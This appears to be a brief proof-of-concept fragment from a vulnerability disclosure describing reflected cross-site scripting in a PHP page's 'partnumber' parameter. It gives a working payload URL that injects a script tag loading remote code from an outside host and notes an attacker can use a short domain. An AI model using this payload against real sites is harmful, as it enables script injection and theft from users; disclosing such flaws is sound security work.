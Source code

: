 PoC:
Payload: [http://localhost:80/showPart.php?partnumber=<script+src%3D%2F%2F2c.io>&submit=Go]([https://www.google.com](http://localhost:80/showPart.php?partnumber=<script+src%3D%2F%2F2c.io>&submit=Go))
The result, it will GET the link: 2c.io (this link is sample, the attacker can design with 5 characters to exploit).

![imgXSS](image.png)

